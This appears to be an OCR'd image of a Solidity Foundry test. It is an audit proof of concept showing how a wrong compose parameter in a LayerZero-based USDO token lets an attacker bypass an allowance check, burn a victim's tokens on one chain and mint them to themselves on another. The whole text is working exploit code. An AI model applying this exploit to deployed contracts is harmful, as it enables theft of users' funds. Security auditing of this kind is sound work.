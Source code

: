 ```solidity
        vm.startPrank(endpoints[aEid]);

        // Chain A: message is received, internally a compose flow is retriggered.
        UsdoReceiver(address(aUsdo)).lzReceive(
            Origin({sender: OFTMsgCodec.addressToBytes32(address(bUsdo)), srcEid: bEid, nonce: 0}), 
            OFTMsgCodec.addressToBytes32(address(0)), // guid (not needed for the PoC)
            abi.encodePacked( // same as _buildOFTMsgAndOptions()
                sendParamAToB.to,
                 index,  // amount
                 OFTMsgCodec.addressToBytes32(makeAddr("attacker")),
                toeComposeMsgVictim
            ), // message
            address(0), // executor (not used)
            bytes("") // extra data (not used)
        );

        // Compose message is sent in `lzReceive()`, we need to trigger `lzCompose()`.
        // At this point, the srcChainSender is the victim (as set in the previous lzCompose) because of the wrong parameter (the `expectEmit` verifies it).
        // The `owner` specified for the remote transfer is also the victim, so the allowance check is bypassed because `owner` == `srcChainSender`.
        // This allows the tokens to be burnt, and a final message is triggered to the destination chain
        UsdoReceiver(address(aUsdo)).lzCompose(
            address(aUsdo), 
            OFTMsgCodec.addressToBytes32(address(0)), // guid (not needed for the PoC)
            abi.encodePacked(OFTMsgCodec.addressToBytes32(address(makeAddr("victim"))), toeComposeMsgVictim), // message (srcChainSender becomes victim because of wrong parameter set)
            address(0), // executor (not used)
            bytes("") // extra data (not used)
        );

        // Back to chain B. Finally, the burnt tokens from the victim in chain A get minted in chain B with the attacker set as the destination
        {
            uint64 tokenAmountSD = usdoHelper.toSD(100 ether, bUsdo.decimalConversionRate());
            
            vm.startPrank(endpoints[bEid]);
            UsdoReceiver(address(bUsdo)).lzReceive(
                Origin({sender: OFTMsgCodec.addressToBytes32(address(aUsdo)), srcEid: aEid, nonce: 0}), 
                OFTMsgCodec.addressToBytes32(address(0)), // guid (not needed for the PoC)
                abi.encodePacked( // same as _buildOFTMsgAndOptions()
                   OFTMsgCodec.addressToBytes32(makeAddr("attacker")),
                    tokenAmountSD
                ), // message
                address(0), // executor (not used)
                bytes("") // extra data (not used)
            );

        }

        // Finished: victim gets drained, attacker obtains balance of victim
        assertEq(bUsdo.balanceOf(makeAddr("victim")), 0);
        assertEq(bUsdo.balanceOf(makeAddr("attacker")), 100 ether);
          
    } 
```
